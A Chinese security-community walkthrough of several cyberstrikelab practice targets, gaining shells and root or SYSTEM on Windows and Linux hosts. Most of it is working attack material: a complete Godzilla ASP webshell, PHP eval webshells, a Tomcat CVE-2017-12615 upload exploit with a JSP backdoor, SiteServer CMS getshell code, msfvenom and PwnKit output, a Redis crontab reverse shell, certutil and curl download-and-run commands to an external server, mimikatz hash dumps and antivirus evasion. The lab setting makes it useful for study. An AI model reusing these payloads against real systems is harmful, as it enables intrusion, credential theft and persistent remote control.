# cyberstrikelab—EVA&database&PRIV&PT-先知社区

> **来源**: https://xz.aliyun.com/news/17126  
> **文章ID**: 17126

---

# cyberstrikelab—EVA&database&PRIV&PT

# EVA-1

打开就是一个上传点

使用哥斯拉生成asp马



直接上传成功

```
<%
Set bypassDictionary = Server.CreateObject("Scripting.Dictionary")

Function Base64Decode(ByVal vCode)
    Dim oXML, oNode
    Set oXML = CreateObject("Msxml2.DOMDocument.3.0")
    Set oNode = oXML.CreateElement("base64")
    oNode.dataType = "bin.base64"
    oNode.text = vCode
    Base64Decode = oNode.nodeTypedValue
    Set oNode = Nothing
    Set oXML = Nothing
End Function

Function decryption(content,isBin)
    dim size,i,result,keySize
    keySize = len(key)
    Set BinaryStream = CreateObject("ADODB.Stream")
    BinaryStream.CharSet = "iso-8859-1"
    BinaryStream.Type = 2
    BinaryStream.Open
    if IsArray(content) then
        size=UBound(content)+1
        For i=1 To size
            BinaryStream.WriteText chrw(ascb(midb(content,i,1)) Xor Asc(Mid(key,(i mod keySize)+1,1)))
        Next
    end if
    BinaryStream.Position = 0
    if isBin then
        BinaryStream.Type = 1
        decryption=BinaryStream.Read()
    else
        decryption=BinaryStream.ReadText()
    end if

End Function
    key="0cc175b9c0f1b6a8"
    content=request.Form("a")
    if not IsEmpty(content) then

        if  IsEmpty(Session("payload")) then
            content=decryption(Base64Decode(content),false)
            Session("payload")=content
            response.End
        else
            content=decryption(Base64Decode(content),true)
            bypassDictionary.Add "payload",Session("payload")
            Execute(bypassDictionary("payload"))
            result=run(content)
            response.Write("5595c2")
            if not IsEmpty(result) then
                response.Write Base64Encode(decryption(result,true))
            end if
            response.Write("a06472")
        end if
    end if
%>
```

扫描一下目录看看传到那去了



<http://10.0.0.95/uploads/shell.asp>



使用掩日本地分离免杀，这里要生成C的payload



上传执行



成功上线CS



烂土豆提权，抓取hash即可



# EVA-2

目录扫描，发现上传点



使用哥斯拉特战版生成一个aspx木马

直接上传

发现卡巴斯基杀软



使用掩日分离免杀，烂土豆提权

直接dumphash会报错

使用离线dump注册表

```
🚀利用注册表离线导出Hash
reg save HKLM\SYSTEM system.hiv
reg save HKLM\SAM sam.hiv
reg save HKLM\security security.hiv
```



```
🚀使用mimikatz解密Hash
C:\Users\Anonymous\Desktop>mimikatz.exe "log hash.txt" "lsadump::sam /system:system.hiv /sam:sam.hiv /security security.hiv" exit

  .#####.   mimikatz 2.2.0 (x64) #19041 Sep 18 2020 19:18:29
 .## ^ ##.  "A La Vie, A L'Amour" - (oe.eo)
 ## / \ ##  /*** Benjamin DELPY `gentilkiwi` ( benjamin@gentilkiwi.com )
 ## \ / ##       > https://blog.gentilkiwi.com/mimikatz
 '## v ##'       Vincent LE TOUX             ( vincent.letoux@gmail.com )
  '#####'        > https://pingcastle.com / https://mysmartlogon.com ***/

mimikatz(commandline) # log hash.txt
Using 'hash.txt' for logfile : OK

mimikatz(commandline) # lsadump::sam /system:system.hiv /sam:sam.hiv /security security.hiv
Domain : WIN-H04BQUUM34G
SysKey : b813c934915090534fb666419877f2fe
Local SID : S-1-5-21-3312932279-2863971529-773309584

SAMKey : fbf3c88c61d69cf9244856f3a3a88799

RID  : 000001f4 (500)
User : Administrator
  Hash NTLM: 849c10009b7bd2c3ae437807c6f7448b

RID  : 000001f5 (501)
User : Guest

RID  : 000001f7 (503)
User : DefaultAccount

mimikatz(commandline) # exit
Bye!
```

试试远程桌面上线关闭卡巴斯基

```
REG ADD HKLM\SYSTEM\CurrentControlSet\Control\Terminal" "Server /v fDenyTSConnections /t REG_DWORD /d 00000000 /f
net user hack01 1324@cbD /add
net localgroup Administrators hack01 /add
```



有点抽象删不了，直接关了



# PRIV-1

通过目录扫描发现版本信息





找一下Nday

<https://github.com/jinqiwenc/we1h0r>

SiteServer CMS 远程模板下载Getshell漏洞

漏洞缺陷是由于后台模板下载位置未对用户权限进行校验，且 ajaxOtherService中的downloadUrl参数可控，导致getshell，目前经过测试发现对5.0版本包含5.0以下通杀.先调用了DecryptStringBySecretKey函数将downloadurl先进行了解密，之后调用SiteTemplateDownload函数进行模板下载并自解压。

且SecretKey在5.0是默认值

vEnfkn16t8aeaZKG3a4Gl9UUlzf4vgqU9xwh8ZV5

下载木马文件

poxteam.zip文件目录起一个http

downloadUrl加密

C#修改\_inputString的值

```
using System; 
using System.IO; 
using System.Security.Cryptography; 
using System.Text; 
namespace EncryptApplication 
{ class Encrypt 
    { static void Main(string[] args) 
      { 
        var _encryptKey = "vEnfkn16t8aeaZKG3a4Gl9UUlzf4vgqU9xwh8ZV5"; 
        var _decryptKey = "vEnfkn16t8aeaZKG3a4Gl9UUlzf4vgqU9xwh8ZV5";
        var _inputString = "http://172.16.233.2/poxteam.zip";
        var _outString = ""; var _noteMessage = "";
        byte[] iv = { 0x12, 0x34, 0x56, 0x78, 0x90, 0xAB, 0xCD, 0xEF };
        try{ 
           var byKey = Encoding.UTF8.GetBytes(_encryptKey.Length > 8 ? _encryptKey.Substring(0, 8) : _encryptKey); 
          var des = new DESCryptoServiceProvider(); 
          var inputByteArray = Encoding.UTF8.GetBytes(_inputString); 
          var ms = new MemoryStream(); 
          var cs = new CryptoStream(ms, des.CreateEncryptor(byKey, iv), CryptoStreamMode.Write);     cs.Write(inputByteArray, 0, inputByteArray.Length);
         cs.FlushFinalBlock();
          _outString = Convert.ToBase64String(ms.ToArray()); 
         Console.WriteLine("DesEncrypt:"); Console.WriteLine(_outString); }
      catch (Exception error) { _noteMessage = error.Message; } 
 } } }
```



Python混淆一下

```
str_decry = "ZjYIub/YxA0OSS4eOKgBeXxl+AfGlaTvlCj8BSbl0T0="
str_decry = str_decry.replace("+", "0add0").replace("=", "0equals0").replace("&", "0and0").replace("?", "0question0").replace("/", "0slash0")

print(str_decry)
```

得出转义后的下载链接

```
http://192.168.1.16/SiteServer/Ajax/ajaxOtherService.aspx?type=SiteTemplateDownload&userKeyPrefix=test&downloadUrl=ZjYIub0slash0YxA0OSS4eOKgBeXxl0add0AfGlaTvlCj8BSbl0T00equals0&directoryName=sectest
```



WebShell:<http://192.168.1.16/SiteFiles/SiteTemplates/sectest/include.aspx>

PassWord:admin



这个不太会用，上线哥斯拉



发现有Defender



掩日做一下分离免杀

上线CS，烂土豆提权即可



# PRIV-2



使用mdut直接连接，激活组件土豆提权

```
C:/ProgramData/SweetPotato.exe -a "type C:\flag.txt"
```


# PRIV-7

连上openvpn自动跳转到极致cms页面

Tscan目录扫描

发现后台地址，不是弱口令，试了一下Nday然后80端口就崩了，后面重新开了一下

前台也有一个登录，注册一个账号



登录后发现头像位置有任意文件上传



直接传php马

```
GIF89a
<?php @eval($_REQUEST['a']);?>
```



点一下跳转

<http://192.168.111.200/Public/Home/202502038044.php>



打开蚁剑连接即可

/home/apche目录下发现flag1



sudo

```
(apache:/var/www/html/Public/Home) $ sudo -l
Matching Defaults entries for apache on localhost:
    !visiblepw, always_set_home, match_group_by_gid, always_query_group_plugin, env_reset, env_keep="COLORS DISPLAY HOSTNAME HISTSIZE KDEDIR LS_COLORS", env_keep+="MAIL PS1 PS2 QTDIR USERNAME LANG LC_ADDRESS LC_CTYPE", env_keep+="LC_COLLATE LC_IDENTIFICATION LC_MEASUREMENT LC_MESSAGES", env_keep+="LC_MONETARY LC_NAME LC_NUMERIC LC_PAPER LC_TELEPHONE", env_keep+="LC_TIME LC_ALL LANGUAGE LINGUAS _XKB_CHARSET XAUTHORITY", secure_path=/sbin\:/bin\:/usr/sbin\:/usr/bin
User apache may run the following commands on localhost:
    (ALL) NOPASSWD: ALL
```

suid

```
/usr/bin/fusermount
/usr/bin/chfn
/usr/bin/chage
/usr/bin/chsh
/usr/bin/gpasswd
/usr/bin/newgrp
/usr/bin/mount
/usr/bin/su
/usr/bin/sudo
/usr/bin/umount
/usr/bin/crontab
/usr/bin/pkexec
/usr/bin/passwd
/usr/sbin/unix_chkpwd
/usr/sbin/pam_timestamp_check
/usr/sbin/usernetctl
/usr/lib/polkit-1/polkit-agent-helper-1
/usr/libexec/dbus-1/dbus-daemon-launch-helper
```

没有发现可利用的点

msf

生成Linux后门

```
msfvenom -p linux/x64/meterpreter/reverse_tcp LHOST=172.16.233.2 LPORT=8888 -f elf > mshell.elf
```

Getshell

```
msf6 > use exploit/multi/handler
[*] Using configured payload generic/shell_reverse_tcp
msf6 exploit(multi/handler) > set payload linux/x64/meterpreter/reverse_tcp
payload => linux/x64/meterpreter/reverse_tcp
msf6 exploit(multi/handler) > set lhost 172.16.233.2
lhost => 172.16.233.2
msf6 exploit(multi/handler) > set lport 8888
lport => 8888
msf6 exploit(multi/handler) > run

[*] Started reverse TCP handler on 172.16.233.2:8888 
[*] Sending stage (3045380 bytes) to 192.168.111.200
[*] Meterpreter session 1 opened (172.16.233.2:8888 -> 192.168.111.200:36192) at 2025-02-03 17:33:13 +0800

meterpreter >
```

利用自带的功能扫描可利用的提权点

```
meterpreter > run post/multi/recon/local_exploit_suggester

[*] 192.168.111.200 - Collecting local exploits for x64/linux...
[*] 192.168.111.200 - 198 exploit checks are being tried...
[+] 192.168.111.200 - exploit/linux/local/cve_2021_4034_pwnkit_lpe_pkexec: The target is vulnerable.
[+] 192.168.111.200 - exploit/linux/local/network_manager_vpnc_username_priv_esc: The service is running, but could not be validated.
[+] 192.168.111.200 - exploit/linux/local/pkexec: The service is running, but could not be validated.
[+] 192.168.111.200 - exploit/linux/local/ptrace_traceme_pkexec_helper: The target appears to be vulnerable.
[+] 192.168.111.200 - exploit/linux/local/su_login: The target appears to be vulnerable.
[+] 192.168.111.200 - exploit/linux/local/sudo_baron_samedit: The target appears to be vulnerable. sudo 1.8.23 is a vulnerable build.
[+] 192.168.111.200 - exploit/linux/local/sudoedit_bypass_priv_esc: The target appears to be vulnerable. Sudo 1.8.23 is vulnerable, but unable to determine editable file. OS can NOT be exploited by this module
[*] Running check method for exploit 70 / 70
[*] 192.168.111.200 - Valid modules for session 1:
============================

 #   Name                                                                Potentially Vulnerable?  Check Result
 -   ----                                                                -----------------------  ------------
 1   exploit/linux/local/cve_2021_4034_pwnkit_lpe_pkexec                 Yes                      The target is vulnerable.
 2   exploit/linux/local/network_manager_vpnc_username_priv_esc          Yes                      The service is running, but could not be validated.
 3   exploit/linux/local/pkexec                                          Yes                      The service is running, but could not be validated.
 4   exploit/linux/local/ptrace_traceme_pkexec_helper                    Yes                      The target appears to be vulnerable.
 5   exploit/linux/local/su_login                                        Yes                      The target appears to be vulnerable.
 6   exploit/linux/local/sudo_baron_samedit                              Yes                      The target appears to be vulnerable. sudo 1.8.23 is a vulnerable build.
 7   exploit/linux/local/sudoedit_bypass_priv_esc                        Yes                      The target appears to be vulnerable. Sudo 1.8.23 is vulnerable, but unable to determine editable file. OS can NOT be exploited by this module
```

挨个利用，第一个就成功了！

```
meterpreter > run exploit/linux/local/cve_2021_4034_pwnkit_lpe_pkexec lhost=172.16.233.2 lport=8888

[*] Started reverse TCP handler on 172.16.233.2:8888 
[*] Running automatic check ("set AutoCheck false" to disable)
[!] Verify cleanup of /tmp/.otutkuw
[+] The target is vulnerable.
[*] Writing '/tmp/.ftozmiqbq/nwqcqw/nwqcqw.so' (548 bytes) ...
[!] Verify cleanup of /tmp/.ftozmiqbq
[*] Sending stage (3045380 bytes) to 192.168.111.200
[+] Deleted /tmp/.ftozmiqbq/nwqcqw/nwqcqw.so
[+] Deleted /tmp/.ftozmiqbq/.wavslhfkuju
[+] Deleted /tmp/.ftozmiqbq
[*] Meterpreter session 2 opened (172.16.233.2:8888 -> 192.168.111.200:36196) at 2025-02-03 17:36:57 +0800
[*] Session 2 created in the background.
meterpreter > bg
[*] Backgrounding session 1...
msf6 exploit(multi/handler) > sessions 

Active sessions
===============

  Id  Name  Type                   Information                     Connection
  --  ----  ----                   -----------                     ----------
  1         meterpreter x64/linux  apache @ localhost.localdomain  172.16.233.2:8888 -> 192.168.111.200:36192 (192.168.111.200)
  2         meterpreter x64/linux  root @ localhost.localdomain    172.16.233.2:8888 -> 192.168.111.200:36196 (192.168.111.200)

msf6 exploit(multi/handler) > sessions 2
[*] Starting interaction with 2...

meterpreter > shell
Process 5306 created.
Channel 1 created.
id
uid=0(root) gid=0(root) groups=0(root),48(apache)
cat /root/flag2.txt
go-flag{A87F3FB2-885A-3CF3-73A1-75AA9CBDC94F}
```

# PRIV-8

访问页面，点击admin，爆破登录密码（有次数限制），测出是弱口令123456

版本为4.7.8

参考:[https://xz.aliyun.com/news/6147?time\_\_1311=YqIxBDyGiti%3DG%3DD%2FD0ex2GDnQu9bz0SEgbD&u\_atoken=171714b8f56f7574de348e800080e11b&u\_asig=1a0c399d17404123434468916e0039](https://xz.aliyun.com/news/6147?time__1311=YqIxBDyGiti=G=D/D0ex2GDnQu9bz0SEgbD&u_atoken=171714b8f56f7574de348e800080e11b&u_asig=1a0c399d17404123434468916e0039)

制作一个图片马

```
copy 0.png/b+1.php/a 2.png
```

管理图片处上传图片

```
POST /admin.php?action=images HTTP/1.1
Host: 192.168.111.203
Content-Length: 15345
Cache-Control: max-age=0
Origin: http://192.168.111.203
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryXoIVbKr7nqqbQEqm
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/133.0.0.0 Safari/537.36 Edg/133.0.0.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://192.168.111.203/admin.php?action=images
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,en;q=0.8,en-GB;q=0.7,en-US;q=0.6
Cookie: PHPSESSID=641d3fs9klndckjjd38rk4anu8
Connection: close

------WebKitFormBoundaryXoIVbKr7nqqbQEqm
Content-Disposition: form-data; name="imagefile"; filename="2.png"
Content-Type: image/png

�PNG

....
<?php @eval($_REQUEST['a']);phpinfo();?>
------WebKitFormBoundaryXoIVbKr7nqqbQEqm
Content-Disposition: form-data; name="submit"

Upload
------WebKitFormBoundaryXoIVbKr7nqqbQEqm--
```

语言设置抓包

```
POST /admin.php?action=language HTTP/1.1
Host: 192.168.111.203
Content-Length: 37
Cache-Control: max-age=0
Origin: http://192.168.111.203
Content-Type: application/x-www-form-urlencoded
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/133.0.0.0 Safari/537.36 Edg/133.0.0.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://192.168.111.203/admin.php?action=language
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,en;q=0.8,en-GB;q=0.7,en-US;q=0.6
Cookie: PHPSESSID=641d3fs9klndckjjd38rk4anu8
Connection: close

cont1=../../../images/2.png&save=Save
```

上述参数保存于php文件：\data\settings\langpref.php

由于该参数是网站语言控制的php文件，访问任意网页，包含langpref对应的文件。

直接访问主页



msf

生成Linux后门

```
msfvenom -p linux/x64/meterpreter/reverse_tcp LHOST=172.16.233.2 LPORT=6677 -f elf > 6677.elf
```

Getshell

```
msf6 > use exploit/multi/handler 
[*] Using configured payload generic/shell_reverse_tcp
msf6 exploit(multi/handler) > set payload linux/x64/meterpreter/reverse_tcp
payload => linux/x64/meterpreter/reverse_tcp
msf6 exploit(multi/handler) > set lhost 172.16.233.2
lhost => 172.16.233.2
msf6 exploit(multi/handler) > set lport 6677
lport => 6677
msf6 exploit(multi/handler) > run

[*] Started reverse TCP handler on 172.16.233.2:6677 
[*] Sending stage (3045380 bytes) to 192.168.111.203
[*] Meterpreter session 1 opened (172.16.233.2:6677 -> 192.168.111.203:49176) at 2025-02-25 00:08:41 +0800
```

利用自带的功能扫描可利用的提权点

```
meterpreter > run post/multi/recon/local_exploit_suggester

[*] 192.168.111.203 - Collecting local exploits for x64/linux...
[*] 192.168.111.203 - 198 exploit checks are being tried...
[+] 192.168.111.203 - exploit/linux/local/cve_2021_4034_pwnkit_lpe_pkexec: The target is vulnerable.
[+] 192.168.111.203 - exploit/linux/local/network_manager_vpnc_username_priv_esc: The service is running, but could not be validated.
[+] 192.168.111.203 - exploit/linux/local/pkexec: The service is running, but could not be validated.
[+] 192.168.111.203 - exploit/linux/local/ptrace_traceme_pkexec_helper: The target appears to be vulnerable.
[+] 192.168.111.203 - exploit/linux/local/su_login: The target appears to be vulnerable.
[+] 192.168.111.203 - exploit/linux/local/sudo_baron_samedit: The target appears to be vulnerable. sudo 1.8.23 is a vulnerable build.
[+] 192.168.111.203 - exploit/linux/local/sudoedit_bypass_priv_esc: The target appears to be vulnerable. Sudo 1.8.23 is vulnerable, but unable to determine editable file. OS can NOT be exploited by this module
[*] Running check method for exploit 70 / 70
[*] 192.168.111.203 - Valid modules for session 1:
============================

 #   Name                                                                Potentially Vulnerable?  Check Result
 -   ----                                                                -----------------------  ------------
 1   exploit/linux/local/cve_2021_4034_pwnkit_lpe_pkexec                 Yes                      The target is vulnerable.
 2   exploit/linux/local/network_manager_vpnc_username_priv_esc          Yes                      The service is running, but could not be validated.
 3   exploit/linux/local/pkexec                                          Yes                      The service is running, but could not be validated.
 4   exploit/linux/local/ptrace_traceme_pkexec_helper                    Yes                      The target appears to be vulnerable.
 5   exploit/linux/local/su_login                                        Yes                      The target appears to be vulnerable.
 6   exploit/linux/local/sudo_baron_samedit                              Yes                      The target appears to be vulnerable. sudo 1.8.23 is a vulnerable build.
 7   exploit/linux/local/sudoedit_bypass_priv_esc                        Yes                      The target appears to be vulnerable. Sudo 1.8.23 is vulnerable, but unable to determine editable file. OS can NOT be exploited by this module
```

挨个利用，第一个就成功了！

```
meterpreter > run exploit/linux/local/cve_2021_4034_pwnkit_lpe_pkexec lhost=172.16.233.2 lport=6677

[*] Started reverse TCP handler on 172.16.233.2:6677 
[*] Running automatic check ("set AutoCheck false" to disable)
[!] Verify cleanup of /tmp/.wyivfcvisw
[+] The target is vulnerable.
[*] Writing '/tmp/.lvmpspva/agyffjum/agyffjum.so' (548 bytes) ...
[!] Verify cleanup of /tmp/.lvmpspva
[*] Sending stage (3045380 bytes) to 192.168.111.203
[+] Deleted /tmp/.lvmpspva/agyffjum/agyffjum.so
[+] Deleted /tmp/.lvmpspva/.iqzqnfgl
[+] Deleted /tmp/.lvmpspva
[*] Meterpreter session 2 opened (172.16.233.2:6677 -> 192.168.111.203:49180) at 2025-02-25 00:15:36 +0800
[*] Session 2 created in the background.
meterpreter > bg
[*] Backgrounding session 1...
msf6 exploit(multi/handler) > sessions 2
[*] Starting interaction with 2...

meterpreter > shell
Process 2003 created.
Channel 1 created.
cd /root
ls
anaconda-ks.cfg
flag2.txt
cat flag2.txt
go-flag{9019249D-749F-3C7B-9BA2-C656B5E69A72}
```

# database-2





爆破得到账号密码

mdut连接，udf提权

上传后门文件，发现没杀了，查看杀软



本地起一个http，传文件

```
certutil -urlcache -split -f http://172.16.233.2:8000/hed.exe hed.exe
certutil -urlcache -split -f http://172.16.233.2:8000/hed.txt hed.txt
```

上线cs烂土豆提权即可



# database-3



扫描到1433 MSSQL数据库



爆出账号密码



使用mdut连接，激活组件执行命令



# database-4





连接就有flag，不用提权拿权限.......

# database-5



```
──(root㉿kali-plus)-[~/Desktop]
└─# redis-cli -h 10.0.0.20 -a admin123
Warning: Using a password with '-a' or '-u' option on the command line interface may not be safe.
10.0.0.20:6379> indo
(error) ERR unknown command `indo`, with args beginning with: 
10.0.0.20:6379> info
# Server
redis_version:5.0.5
10.0.0.20:6379> config set dir /var/spool/cron/
OK
10.0.0.20:6379> config set dbfilename root
OK
10.0.0.20:6379> set shell "

*/1 * * * * /bin/bash -i>&/dev/tcp/172.16.233.2/6677 0>&1

"
OK
10.0.0.20:6379> save
OK
```



# PT-14

```
E:\fscan\fscanplus>fscanPlus_amd64.exe -h 10.0.0.26

  ______                   _____  _
 |  ____|                 |  __ \| |
 | |__ ___  ___ __ _ _ __ | |__) | |_   _ ___
 |  __/ __|/ __/ _  |  _ \|  ___/| | | | / __|
 | |  \__ \ (_| (_| | | | | |    | | |_| \__ \
 |_|  |___/\___\__,_|_| |_|_|    |_|\__,_|___/
                     fscan version: 1.8.4 TeamdArk5 v1.0
start infoscan
10.0.0.26:139 open
10.0.0.26:135 open
10.0.0.26:8009 open
10.0.0.26:8080 open
10.0.0.26:445 open
[*] alive ports len is: 5
start vulscan
[*] NetInfo
[*]10.0.0.26
   [->]cyberweb
   [->]10.0.0.26
[*] WebTitle http://10.0.0.26:8080     code:200 len:11432  title:Apache Tomcat/8.5.19
[*] NetBios 10.0.0.26       cyberweb.cyberstrikelab.com         Windows Server 2012 R2 Standard 9600
[+] PocScan http://10.0.0.26:8080 poc-yaml-iis-put-getshell
[+] PocScan http://10.0.0.26:8080 poc-yaml-tomcat-cve-2017-12615-rce
已完成 5/5
[*] 扫描结束,耗时: 10.6456343s
```

参考：<https://www.cnblogs.com/confidant/p/15440233.html>

可以执行命令了，上传一句话木马连接

改一下上面的EXP

```
import requests
import optparse
import time


parse = optparse.OptionParser(usage = 'python3 %prog [-h] [-u URL] [-p PORT]')
parse.add_option('-u','--url',dest='URL',help='target url')
parse.add_option('-p','--port',dest='PORT',help='target port[default:8080]',default='8080')

options,args = parse.parse_args()
#验证参数是否完整
if not options.URL or not options.PORT:
        print('Usage:python3 CVE-2017-12615-POC.py [-u url] [-p port]
')
        exit('CVE-2017-12615-POC.py:error:missing a mandatory option(-u,-p).Use -h for basic and -hh for advanced help')

url = options.URL+':'+options.PORT
filename = '/backdoor.jsp'
payload = filename+'?pwd=023&i='

headers = {"User-Agent":"Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:93.0) Gecko/20100101 Firefox/93.0"}
#木马
data = '''<%!
    class U extends ClassLoader {
        U(ClassLoader c) {
            super(c);
        }
        public Class g(byte[] b) {
            return super.defineClass(b, 0, b.length);
        }
    }

    public byte[] base64Decode(String str) throws Exception {
        try {
            Class clazz = Class.forName("sun.misc.BASE64Decoder");
            return (byte[]) clazz.getMethod("decodeBuffer", String.class).invoke(clazz.newInstance(), str);
        } catch (Exception e) {
            Class clazz = Class.forName("java.util.Base64");
            Object decoder = clazz.getMethod("getDecoder").invoke(null);
            return (byte[]) decoder.getClass().getMethod("decode", String.class).invoke(decoder, str);
        }
    }
%>
<%
    String cls = request.getParameter("passwd");
    if (cls != null) {
        new U(this.getClass().getClassLoader()).g(base64Decode(cls)).newInstance().equals(pageContext);
    }
%>'''
#上传木马文件
def upload(url):
  print('[*] 目标地址:'+url)
  try:
    respond = requests.put(url+filename+'/',headers=headers,data = data)
    #print(respond.status_code)
    if respond.status_code == 201 or respond.status_code == 204:
      #print('[*] 目标地址:'+url)
      print('[+] 木马上传成功')
  except Exception as e:
    print('[-] 上传失败')
    return 0

#命令执行
def attack(url,cmd):
  try:
    respond = requests.get(url+payload+cmd)
    if respond.status_code == 200:
      print(str(respond.text).replace("<pre>","").replace("</pre>","").strip())

  except Exception as e:
    print('[-] 命令执行错误')
if upload(url) == 0:
        exit()
time.sleep(0.5)
print('输入执行命令(quit退出):')
while(1):
  cmd = input('>>>')
  if(cmd == 'quit'):
    break
  attack(url,cmd)
```

地址:<http://10.0.0.26:8080/backdoor.jsp> 密码:passwd

没有杀软烂土豆提权即可



# PT-15



打开是Thinkphp



发现存在命令执行漏洞，写马



发现存在杀软



掩日分离免杀，烂土豆提权即可



# CVE-2024-23897

靶标介绍

Jenkins是基于Java开发的一种持续集成工具。2024年1月25日，Jenkins 官方披露 CVE-2024-23897 Jenkins CLI 任意文件读取漏洞。Jenkins 受影响版本中使用 args4j 库解析CLI命令参数，攻击者可利用相关特性读取 Jenkins 控制器文件系统上的任意文件（如加密密钥的二进制文件），并结合其他功能等可能导致任意代码执行。

密码：cslab

这里提示给了密码，不给密码就只能爆破了。

使用EXP直接读取文件

<https://github.com/godylockz/CVE-2024-23897>

## 非预期

根据前面打的靶场猜测是把flag放到/tmp/flag.txt文件里面了，直接读取文件。



## 预期解

Jenkins 安装将有一个文件，其中列出了此处的所有有效用户。

* /var/jenkins\_home/users/users.xml

```
file> /var/jenkins_home/users/users.xml
<?xml version='1.1' encoding='UTF-8'?>
  <idToDirectoryNameMap class=
    <entry>
  <version>1</version>

      <string>admin_13599384669723102664</string>

</hudson.model.UserIdMapper>

      <string>admin</string>

  </idToDirectoryNameMap>

<hudson.model.UserIdMapper>
    </entry>
```

users.xml显示系统上的单个用户admin，其文件夹为 /var/jenkins\_home/users/admin\_13599384669723102664

在 Jenkins 上的每个用户文件夹中，始终有一个包含用户密码哈希的config.xml文件。读取文件夹中的config.xml

admin\_13599384669723102664：

```
file> /var/jenkins_home/users/admin_13599384669723102664/config.xml
<tokenList/>
    <jenkins.console.ConsoleUrlProviderUserProperty/>
        </hudson.model.AllView>

  <fullName>admin</fullName>

          <owner class=
    <hudson.search.UserSearchProperty>
  </properties>

    <hudson.model.TimeZoneProperty/>
    <jenkins.security.seed.UserSeedProperty>
    </jenkins.model.experimentalflags.UserExperimentalFlagsProperty>

      </tokenStore>

    </hudson.search.UserSearchProperty>

    <hudson.security.HudsonPrivateSecurityRealm_-Details>
          <properties class=
  <properties>
      <flags/>
    <hudson.model.MyViewsProperty>
        <hudson.model.AllView>
</user>

      <passwordHash>#jbcrypt:$2a$10$elNT5UpS4Sg/JOjSTGLE3.5LqJyOAe4ArY3Y11j4CNU21G8kWxQEm</passwordHash>

    </hudson.security.HudsonPrivateSecurityRealm_-Details>

    </jenkins.security.ApiTokenProperty>

    <jenkins.model.experimentalflags.UserExperimentalFlagsProperty>
      <views>
<user>
    <hudson.model.PaneStatusProperties>
          <name>all</name>

<?xml version='1.1' encoding='UTF-8'?>
  <id>admin</id>

      <collapsed/>
    </jenkins.security.seed.UserSeedProperty>

  <version>10</version>

      <seed>ce67065003abd6a0</seed>

    </hudson.model.MyViewsProperty>

      <tokenStore>
          <filterExecutors>false</filterExecutors>

          <filterQueue>false</filterQueue>

    <jenkins.security.ApiTokenProperty>
      </views>

    </hudson.model.PaneStatusProperties>
```

爆破

```
$2a$10$elNT5UpS4Sg/JOjSTGLE3.5LqJyOAe4ArY3Y11j4CNU21G8kWxQEm
```

得到

```
┌──(root㉿zss)-[/home/zss/桌面]
└─# hashcat -m 3200 hash1.txt pwd      
hashcat (v6.2.6) starting

OpenCL API (OpenCL 3.0 PoCL 6.0+debian  Linux, None+Asserts, RELOC, LLVM 17.0.6, SLEEF, DISTRO, POCL_DEBUG) - Platform #1 [The pocl project]
============================================================================================================================================
* Device #1: cpu-haswell-AMD Ryzen 5 5600H with Radeon Graphics, 2899/5862 MB (1024 MB allocatable), 4MCU

Minimum password length supported by kernel: 0
Maximum password length supported by kernel: 72

Hashes: 1 digests; 1 unique digests, 1 unique salts
Bitmaps: 16 bits, 65536 entries, 0x0000ffff mask, 262144 bytes, 5/13 rotates
Rules: 1

Optimizers applied:
* Zero-Byte
* Single-Hash
* Single-Salt

Watchdog: Temperature abort trigger set to 90c

Host memory required for this attack: 0 MB

Dictionary cache built:
* Filename..: pwd
* Passwords.: 1
* Bytes.....: 6
* Keyspace..: 1
* Runtime...: 0 secs

The wordlist or mask that you are using is too small.
This means that hashcat cannot use the full parallel power of your device(s).
Unless you supply more work, your cracking speed will drop.
For tips on supplying more work, see: https://hashcat.net/faq/morework

Approaching final keyspace - workload adjusted.         

$2a$10$elNT5UpS4Sg/JOjSTGLE3.5LqJyOAe4ArY3Y11j4CNU21G8kWxQEm:cslab
                                                        
Session..........: hashcat
Status...........: Cracked
Hash.Mode........: 3200 (bcrypt $2*$, Blowfish (Unix))
Hash.Target......: $2a$10$elNT5UpS4Sg/JOjSTGLE3.5LqJyOAe4ArY3Y11j4CNU2...kWxQEm
Time.Started.....: Tue Feb 18 21:37:25 2025 (0 secs)
Time.Estimated...: Tue Feb 18 21:37:25 2025 (0 secs)
Kernel.Feature...: Pure Kernel
Guess.Base.......: File (pwd)
Guess.Queue......: 1/1 (100.00%)
Speed.#1.........:       17 H/s (0.77ms) @ Accel:4 Loops:16 Thr:1 Vec:1
Recovered........: 1/1 (100.00%) Digests (total), 1/1 (100.00%) Digests (new)
Progress.........: 1/1 (100.00%)
Rejected.........: 0/1 (0.00%)
Restore.Point....: 0/1 (0.00%)
Restore.Sub.#1...: Salt:0 Amplifier:0-1 Iteration:1008-1024
Candidate.Engine.: Device Generator
Candidates.#1....: cslab -> cslab
Hardware.Mon.#1..: Util: 25%

Started: Tue Feb 18 21:37:21 2025
Stopped: Tue Feb 18 21:37:27 2025
```

这个密码硬爆破肯定没戏，前面也告诉账号密码了。

然后登录成功直接反弹shell

<http://75bdc54f-48ae-4244-93eb-e839c6a73453-341.cyberstrikelab.com:83/manage/script>

```
echo -n 'L2Jpbi9zaCAtaSA+JiAvZGV2L3RjcC8xMTYuNjIuNTAuMTg4LzEzMzMzIDA+JjE=' | base64 -d | /bin/bash
```

写入1.sh，VPS起一个http

```
println "curl http://116.62.50.188/1.sh -o /tmp/1.sh".execute().text
println "chmod 777 /tmp/1.sh".execute().text
println "/bin/bash /tmp/1.sh".execute().text
```



‍
